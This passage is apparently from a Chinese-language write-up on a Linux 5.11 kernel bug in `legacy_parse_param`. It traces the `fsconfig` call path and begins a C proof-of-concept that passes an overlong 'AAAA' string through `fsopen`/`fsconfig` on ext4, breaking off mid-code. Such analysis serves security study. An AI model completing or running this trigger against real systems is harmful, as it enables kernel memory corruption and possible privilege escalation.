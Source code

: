  ```c
 	.parse_monolithic	= legacy_parse_monolithic,
 	.get_tree		= legacy_get_tree,
 	.reconfigure		= legacy_reconfigure,
 };
 ```

注册结束之后，进入`vfs_parse_fs_param` 函数处理参数，这里会调用刚注册的回调函数，也就是漏洞函数。

linux-5.11\fs\fs_context.c : 98 : vfs_parse_fs_param

```c
int vfs_parse_fs_param(struct fs_context *fc, struct fs_parameter *param)
{
	··· ···

	if (fc->ops->parse_param) {
		ret = fc->ops->parse_param(fc, param); //漏洞所在函数
		if (ret != -ENOPARAM)
			return ret;
	}

	··· ···
    ··· ···
}
EXPORT_SYMBOL(vfs_parse_fs_param);
```

总体预览如下

- SYSCALL_DEFINE5(fsconfig,... : 系统调用入口
  - vfs_fsconfig_locked
    - finish_clean_context
      - legacy_init_fs_context : 注册回调函数表
    - vfs_parse_fs_param
      - legacy_parse_param : 漏洞

## 漏洞复现POC

漏洞复现poc：

```c
#define _GNU_SOURCE
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
#define FSCONFIG_SET_STRING 1
#define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
#define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)

int main(void)
{
        char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
        int fd = 0;
        fd = fsopen("ext4", 0);
        if (fd < 0) {
                puts("Opening");
                exit(-1);
        }
```